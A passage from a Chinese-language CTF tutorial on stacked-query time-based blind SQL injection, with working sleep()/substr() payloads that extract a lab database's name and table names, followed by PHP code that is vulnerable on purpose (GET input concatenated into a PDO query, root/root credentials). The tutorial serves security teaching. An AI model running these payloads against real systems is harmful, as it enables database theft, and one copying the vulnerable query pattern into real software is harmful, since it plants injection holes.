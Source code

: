 ![img](F:\CTF-QuickStart\img\【SQL注入】SQL注入这一篇就够了\20200918003438.png)

```bash
URL:http://www.tianchi.com/web/duidie.php?id=1';select if(length(database())>=9,sleep(4),1)
```

可以看到页面响应时间是1026毫秒，即1.026秒，这说明页面没有执行`sleep(4)`，而是执行了select 1，也就是`length(database())>=9`是错误的。那么可以确定，当前数据库库名的长度是8。使用Burp的Repeater模块如下所示：
![img](F:\CTF-QuickStart\img\【SQL注入】SQL注入这一篇就够了\20200918003445.png)

（2）获取当前数据库库名

由于数据库的库名范围一般在a-z,0-9之间，可能有特殊字符，不区分大小写。与boolean注入、时间盲注类似，也使用substr函数来截取database()的值，一次截取一个，注意和limit的从0开始不同，它是从1开始。
语句：

```vhdl
';select if(substr(database(),1,1)='a',sleep(4),1)%23
```

```bash
URL:http://www.tianchi.com/web/duidie.php?id=1';select if(substr(database(),1,1)='s',sleep(4),1)%23
```

![img](F:\CTF-QuickStart\img\【SQL注入】SQL注入这一篇就够了\20200918003453.png)

可以看到，当前数据库库名的第一个字符是s，同理可以得到库名是：`security`

3）获取数据库表名

语句：

```vhdl
';select if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e',sleep(4),1)%23
```

```bash
URL:http://www.tianchi.com/web/duidie.php?id=1';select if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e',sleep(4),1)%23
```

![img](F:\CTF-QuickStart\img\【SQL注入】SQL注入这一篇就够了\20200918003500.png)

可以看到`security`数据库的第一个表名的第一个字符是e。

同理，得到所有字符，最后得到security数据库的第一个表名是：`emails`。

和时间盲注相同，通过构造不同的时间注入语句，就可以得到完整的数据库库名，表名，字段名和具体数据。

### 堆叠查询注入PHP代码

在堆叠注入页面中，程序获取GET参数ID，使用PDO的方式进行数据查询，但仍然将参数ID拼接到查询语句，导致PDO没起到预编译的效果，程序仍然存在SQL注入漏洞。使用PDO执行SQL语句时，虽然可以执行多语句，但是PDO只会返回第一条SQL语句的执行结果，所以第二条语句中需要使用update更新数据或者使用时间盲注获取数据。代码如下：

```php
<?php
header("Content-Type:text/html;charset=utf8");
try{
	$con=new PDO("mysql:host=localhost;dbname=security","root","root");
	$con->setAttribute(PDO::ATTR_ERRMODE,PDO::ERRMODE_EXCEPTION);
	$id=$_GET['id'];
	$stmt=$con->query("select * from users where id='".$id."'");
	$result=$stmt->setFetchMode(PDO::FETCH_ASSOC);
	foreach ($stmt->fetchAll() as $k => $v) {
		foreach ($v as $key => $value) {
			echo $value;
		}
	}
	$dsn=null;
}
```